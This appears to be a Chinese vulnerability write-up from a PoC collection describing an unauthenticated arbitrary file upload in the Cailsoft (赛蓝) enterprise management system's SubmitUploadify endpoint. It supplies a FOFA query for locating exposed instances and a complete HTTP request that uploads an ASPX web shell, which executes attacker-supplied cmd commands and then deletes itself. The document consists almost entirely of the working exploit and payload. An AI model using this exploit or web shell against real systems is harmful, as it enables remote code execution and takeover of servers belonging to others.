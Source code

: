 # 赛蓝企业管理系统SubmitUploadify存在任意文件上传漏洞

赛蓝企业管理系统 /EHRModule/EHR_Holidays/SubmitUploadify 接口处存在文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```yaml
body="www.cailsoft.com" || body="赛蓝企业管理系统"
```

## poc

```xml
POST /EHRModule/EHR_Holidays/SubmitUploadify?FolderId=1&UserId=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.2558.72 Safari/537.36
Accept-Ldwk: bG91ZG9uZ3dlbmt1
Content-Type: multipart/form-data;boundary =---------------------------142851345723692939351758052805
Connection: close
 
-----------------------------142851345723692939351758052805
Content-Disposition: form-data; name="Filedata"; filename="11.aspx"
Content-Type: image/png
 
<%@ Page Language="Jscript" validateRequest="false" %>
<%
var c=new System.Diagnostics.ProcessStartInfo("cmd");
var e=new System.Diagnostics.Process();
var out:System.IO.StreamReader,EI:System.IO.StreamReader;
c.UseShellExecute=false;
c.RedirectStandardOutput=true;
c.RedirectStandardError=true;
e.StartInfo=c;
c.Arguments="/c " + Request.Item["cmd"];
e.Start();
out=e.StandardOutput;
EI=e.StandardError;
e.Close();
Response.Write(out.ReadToEnd() + EI.ReadToEnd());
System.IO.File.Delete(Request.PhysicalPath);
Response.End();%>
-----------------------------142851345723692939351758052805--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408091056879.png)
